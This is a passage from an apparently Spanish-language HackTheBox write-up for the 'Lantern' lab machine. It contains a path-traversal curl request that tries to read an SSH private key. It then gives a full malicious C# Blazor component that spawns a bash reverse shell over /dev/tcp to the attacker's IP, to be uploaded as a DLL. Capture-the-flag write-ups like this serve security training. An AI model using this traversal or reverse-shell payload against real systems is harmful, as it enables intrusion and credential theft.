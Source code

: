 pero si intentamos ir a por el id_rsa:

```bash
curl -s 'http://lantern.htb/PrivacyAndPolicy?lang=../../../../../../../../../../&ext=./.ssh/id_rsa'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241205174700.png)

no vemos nada

por lo que no nos sirve de mucho

de vuelta a lapagina del puerto 3000 vemos cosas curiosas 

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241205175124.png)

vemos que solo busca archivos .dll

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241205175202.png)

y que podemos subir archivos por lo que se me ocurre crear un archivo .dll malicioso

Ahora, crearemos un archivo `C#` malicioso (ya que `Blazor`, el servicio corriendo el servidor web, usa `C#`). Primero, creamos un proyecto usando `dotnet`:

```shell-session
dotnet new classlib -n revshell
```

Luego, instalamos los paquetes necesarios:

```shell-session
dotnet add package Microsoft.AspNetCore.Components --version 
```

Entramos en el directorio llamado `revshell` y editamos el archivo `Class1.cs` con el contenido:

```cs
using System;
using System.Diagnostics;
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;

namespace revshell{
  public class Component : ComponentBase{
    protected override void BuildRenderTree(RenderTreeBuilder __builder){
      Process proc = new System.Diagnostics.Process();
      proc.StartInfo.FileName = "/bin/bash";
      proc.StartInfo.Arguments = "-c \"bash -i >& /dev/tcp/10.10.16.72/443 0>&1\"";
      proc.StartInfo.UseShellExecute = false;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.Start();

      while (!proc.StandardOutput.EndOfStream){
        Console.WriteLine(proc.StandardOutput.ReadLine());
      }
    }
  }
}
```
